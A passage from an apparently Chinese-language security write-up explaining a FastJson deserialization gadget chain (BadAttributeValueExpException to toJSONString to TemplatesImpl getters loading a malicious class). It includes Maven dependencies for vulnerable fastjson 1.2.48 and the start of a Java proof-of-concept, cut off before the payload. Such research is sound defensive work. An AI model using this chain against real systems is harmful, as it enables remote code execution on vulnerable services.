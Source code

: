 在序列化的时候，通过`JSON.toJSONString`可以调用到对应类的Getter方法

![image-20250128195120333](images/3.png)

那链子就差不多出来了，从BadAttributeValueExpException——>toString——>toJSONString——>templatesImpl的getter方法加载恶意类

至于为什么可以调用到getter方法，大概到意思就是提取相应的类信息，通过ASM创建出一个类调用其中的getter方法，详细的可以在Y4的博客中看到

https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

## 利用链复现

```
<dependencies>
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.19.0-GA</version>
    </dependency>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.48</version>
    </dependency>
</dependencies>
```

```
package org.example;

import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Main {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
```